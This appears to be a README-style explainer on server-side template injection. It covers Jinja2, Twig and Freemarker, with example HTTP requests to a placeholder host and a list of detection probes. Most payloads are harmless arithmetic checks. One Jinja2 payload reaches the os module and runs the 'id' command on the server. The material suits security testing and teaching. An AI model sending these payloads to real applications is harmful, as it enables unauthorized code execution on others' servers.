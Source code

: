 # Description

**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

### How Does SSTI Vulnerability Occur?

SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

### Where to Put an SSTI Payload?

An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

### Examples of HTTP Requests with SSTI Payloads

Here are some examples of SSTI payloads used in various contexts:

#### 1. Basic SSTI in a Python Flask/Jinja2 Application

If an application uses Jinja2 and directly renders user input, a payload can be used to execute Python code.

**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
In this example, if the server-side code uses `name` in a Jinja2 template like this:
```python
return render_template('greeting.html', name=request.args.get('name'))
```
The output rendered would be `49` instead of `{{7*7}}`.

#### 2. Exploiting SSTI to Execute Arbitrary Code

Advanced SSTI payloads can execute arbitrary server-side commands or code.

**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:
- This payload tries to access the `os` module and execute the `id` command, potentially revealing user and group information.

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```
If the `message` parameter is rendered directly in a Jinja2 template, it could execute the `id` command on the server.

#### 3. SSTI in a PHP Application Using Twig

For Twig template engines, SSTI payloads can be used to achieve code execution if the application does not filter user input.

**Malicious Payload (`{{7*7}}`)**:
- Like in Jinja2, this payload would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```
If the application uses:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```
It could render `49` on the profile page.

#### 4. Java Application Using Freemarker

In Freemarker, SSTI can occur if input is evaluated as part of the template rendering.

**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```
If the application uses the input in the template:
```java
template.process(dataModel, out);
```
It could output `49` instead of `${7*7}`.

SSTI vulnerabilities can lead to severe consequences, such as remote code execution or unauthorized access to sensitive data, making secure template handling crucial for web applications.

# SSTI Payloads For Detection
```html
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```
